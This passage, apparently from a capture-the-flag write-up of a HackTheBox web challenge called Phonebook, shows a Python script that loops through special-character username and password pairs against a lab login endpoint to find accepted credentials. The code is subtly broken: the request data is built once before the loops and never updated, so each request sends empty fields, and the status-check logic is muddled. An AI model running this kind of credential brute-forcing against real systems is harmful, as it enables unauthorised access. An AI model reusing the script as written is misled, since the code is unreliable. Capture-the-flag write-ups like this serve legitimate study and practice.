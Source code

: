I found out that there are lots of credentials that provides `500` status code.<br>
So, I modified the script to output only  `200` status code.

![special_chr_status_200](/assets/htb/challenge/web/phonebook/img/special_chr_status_200.png)

The special character exploit code is:

```python
# Arijit-Bhowmick [sys41x4]

import requests

url = "http://206.189.121.131:30184/login"

user_name, passwd =  "", ""

data = {"username":user_name, "password":passwd}

#special_characters = (32–47 / 58–64 / 91–96 / 123–126)

char = ''

chr_num_dict= {32:47, 58:64, 91:96, 123:126}

for start in chr_num_dict.keys():
	for j in range(start, chr_num_dict[start]+1):
		char+=chr(j)

for uname_chr in char:
	
	user_name = uname_chr

	for passwd_chr in char:
		
		passwd = passwd_chr

		r = requests.post(url, data=data)

		if (r.status_code != 500) and ("Please login" not in r.text):

			print(f"STATUS_CODE = {r.status_code}   ||  USERNAME = {user_name} | PASSWORD = {passwd}")
			
		elif (r.status_code != 404) or ("Please login" in r.text):
			
			#print(f"TEST >>> STATUS_CODE = {r.status_code}   ||  USERNAME = {user_name} | PASSWORD = {passwd}") # For testing purpose
			continue
```
